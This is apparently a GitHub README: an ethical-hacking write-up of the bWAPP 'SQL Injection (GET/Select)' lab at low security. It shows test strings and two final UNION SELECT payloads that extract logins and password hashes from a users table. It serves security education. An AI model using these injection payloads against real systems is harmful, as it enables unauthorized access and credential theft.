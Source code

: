 # SQL Injection (GET/Select)
---

Choose your language / Выберите язык:

- 🇬🇧 [English](README.en.md)
- 🇷🇺 [Русский](README.md)

# Disclaimer
---

**The text was written and translated by the author manually. A language model was used for formatting and stylistic editing.**

**This material is provided for educational and research purposes only. 
I do not encourage or call for unauthorized access to information systems or violation of the law. 
In my opinion, one of the most effective ways to combat cybercrime is to educate both everyday users and managers, as well as developers of digital products about common vulnerabilities that could potentially be exploited by malicious actors to carry out unlawful acts.**

**⚠️ All actions described in this document were performed within an authorized research environment (CTF/test platform), without violating the rights of third parties or current legislation.**

**Unauthorized interference with computer systems, violation of data storage and processing rules, and other forms of so-called "black-hat" hacking are contrary to law and the ethics of information security.**

**I adhere to the principles of ethical research and responsible vulnerability disclosure.**

---

# Introduction
---

The Buggy Web Application (BWAPP) offers a set of challenges based on the ***SQL Injection vulnerability***. (**A03:2021 - Injection**)

***SECURITY LEVELS COVERED***
- Low

# Target
---

![[images/SqliGetSelectTarget.png]]

# Functionality
---

The application allows us to choose a movie from the list provided:

![[images/SqliGetSelectFunction.png]]

### Probable SQL query:

```SQL
SELECT * FROM movies WHERE id="$variable"
```

# Exploitation
---

Testing with standard payload `1' OR 1=1 -- ` returned an error, yet the `1 OR 1=1 -- ` didn't fail:

![[images/SqliGetSelectTest.png]]

Passing a `UNION` based payload earlier used in [[19.09.2025/SQL Injection (GET Search)/README.en]] didn't return any errors, yet did not allow to retrieve any information from the (likely) users table:

![[images/SqlietGetSelectTest2.png]]

Passing `UNION` based payloads with `ORDER BY` additions allowed to retrieve data from the `users` table by modifying the `ORDER BY` parameter:

![[images/SqliGetSelectPwd.png]]

![[images/SqliGetSelectUsers.png]]

## Final payloads

Retrieving hashed password entries:

```SQL

1 UNION SELECT login, password, NULL, NULL, NULL, NULL, NULL FROM users ORDER BY 2 --
 
```

Retrieving login entries:

```SQL

1 UNION SELECT password, login, NULL, NULL, NULL, NULL, NULL FROM users ORDER BY 2 --
 
```
